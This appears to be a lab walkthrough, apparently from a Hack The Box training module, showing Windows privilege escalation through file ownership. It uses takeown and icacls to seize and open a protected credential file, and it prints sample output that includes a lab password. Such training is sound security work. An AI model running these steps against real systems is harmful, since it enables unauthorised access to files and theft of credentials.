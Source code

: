 ## 💻 File Ownership Attack Technique

### Step 1: Target Assessment
```powershell
# Examine target file details
Get-ChildItem -Path 'C:\TakeOwn\flag.txt' | Select Fullname,LastWriteTime,Attributes,@{Name="Owner";Expression={(Get-Acl $_.FullName).Owner}}

# Check directory ownership if file owner hidden
cmd /c dir /q 'C:\Department Shares\Private\IT'
```

### Step 2: Ownership Takeover
```cmd
# Take ownership using takeown utility
takeown /f 'C:\Department Shares\Private\IT\cred.txt'

# Expected output:
SUCCESS: The file (or folder): "C:\Department Shares\Private\IT\cred.txt" now owned by user "WINLPE-SRV01\htb-student"
```

### Step 3: Ownership Verification
```powershell
# Confirm ownership change
Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | Select name,directory,@{Name="Owner";Expression={(Get-ACL $_.Fullname).Owner}}

# Expected result:
Name     Directory                       Owner
----     ---------                       -----
cred.txt C:\Department Shares\Private\IT WINLPE-SRV01\htb-student
```

### Step 4: Access Control Modification
```cmd
# Test file access first
cat 'C:\Department Shares\Private\IT\cred.txt'
# May still result in: Access to the path is denied

# Grant full permissions using icacls
icacls 'C:\Department Shares\Private\IT\cred.txt' /grant htb-student:F

# Expected output:
processed file: C:\Department Shares\Private\IT\cred.txt
Successfully processed 1 files; Failed processing 0 files
```

### Step 5: File Access
```powershell
# Read file contents
cat 'C:\Department Shares\Private\IT\cred.txt'

# Sample output:
NIX01 admin
root:n1X_p0wer_us3er!
```
